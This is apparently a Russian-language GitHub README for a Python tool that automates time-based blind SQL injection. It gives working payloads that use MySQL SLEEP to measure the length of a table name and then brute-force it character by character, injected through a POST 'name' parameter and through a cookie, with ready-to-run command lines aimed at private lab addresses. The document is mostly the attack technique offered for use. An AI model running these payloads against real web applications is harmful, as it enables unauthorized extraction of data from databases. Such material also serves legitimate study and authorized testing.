


# Blind SQL injection

Скрипт, который при помощи `SLEEP` определяет значения в таблице

## Как использовать?

Попытаемся узнать имя таблицы (в моем примере всего одна таблица: `users`)

Пример стандартного запроса:
```SQL
SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema= database() LIMIT 0,1
```

### Шаг 1. Получим длину нашей записи

Для этого используем команду:

```SQL
if ((LENGTH((SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema= database() LIMIT 0,1)) = 5), SLEEP(2),0)-- -
```

Если длина нашей ячейки `= 5` тогда выполняется `SLEEP(2)`

Определить чему она должна быть равна можно перебором, подставляя логические выражения `>0`, `>5`, `>3`, `=3`, `=4`, `=5`.
Команда `SLEEP(2)` отработает только на выражениях: `>0`, `>3`, `=5`.

### Шаг 2. Получаем название

Была уязвимость в POST параметре `name`. Вставляем в него PAYLOAD. В payload указываем `{POSITION}` - место буквы.
`{SYMBOL}` - буква которая будет подбираться брутфорсом. Перебирал HEX значения.

```bash
python3 script.py -post -u "http://10.8.32.1:43064/" -t hex \
 -d "name=mikop' or if((substring((SELECT HEX(TABLE_NAME) FROM information_schema.tables WHERE table_schema= database() limit 0,1), {POSITION}, 1)={SYMBOL}), sleep(0.5), 0)#"
 ```



### Пример SQLi в cookie

```PSOT
python3 script.py -get -u "http://10.8.32.1:43065/" \
  -H "Cookie: cook=mikop' or if((ASCII(substring((SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema= database() limit 0,1), {POSITION}, 1))={SYMBOL}), sleep(2), 0)#;" \
```




## Как работает?

Скрипт смотрит на задержку от сервера. Если на сервер отправить `SLEEP(10)`. То ответ придет не раньше, чем через 10 секунд.
Изменить это можно с помощью флага `--timeout 5.5`.

